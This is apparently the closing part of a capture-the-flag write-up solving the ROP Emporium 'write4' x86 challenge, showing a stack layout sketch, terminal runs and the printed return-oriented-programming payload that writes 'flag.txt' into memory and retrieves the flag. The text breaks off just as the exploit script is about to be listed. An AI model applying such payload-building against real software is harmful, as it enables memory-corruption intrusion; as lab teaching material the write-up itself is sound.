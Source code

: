 	_______________________________________
	fake eip
	 = "dddd"				 4B
	_______________________________________
	args
	 = &data
	 = 0x0804a018				 4B
	 = "\x18\xa0\x04\x08"
	_______________________________________
	

# FTW

O hek yea

	$ ./write432  < input 
	write4 by ROP Emporium
	x86
	
	Go ahead and give me the input already!
	
	> Thank you!
	ROPE{i ate the bug}
	
	Segmentation fault (core dumped)
	

Now that I have endured a bit of masochism by manually creating my input file, I can whip up a python script that should work as well:

(it does):

	$ python3 write432.py
	[*] '/home/ubuntu/ropemporium/write4/write432'
	    Arch:     i386-32-little
	    RELRO:    Partial RELRO
	    Stack:    No canary found
	    NX:       NX enabled
	    PIE:      No PIE (0x8048000)
	    RUNPATH:  b'.'
	[+] Starting local process '/home/ubuntu/ropemporium/write4/write432': pid 22583
	b'write4 by ROP Emporium\nx86\n\nGo ahead and give me the input already!\n\n>'
	[*] Loaded 10 cached gadgets for './write432'
	rop gadget 1 is at:  b'\xaa\x85\x04\x08'
	payload is:  b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB\xaa\x85\x04\x08\x18\xa0\x04\x08flagC\x85\x04\x08\xaa\x85\x04\x08\x1c\xa0\x04\x08.txtC\x85\x04\x08\xd0\x83\x04\x08dddd\x18\xa0\x04\x08'
	[+] Receiving all data: Done (33B)
	[\*] Process '/home/ubuntu/ropemporium/write4/write432' stopped with exit code -11 (SIGSEGV) (pid 22583)
	b' Thank you!\nROPE{i ate the bug}\n\n'


Here's what it looks like:

	$ cat write432.py
	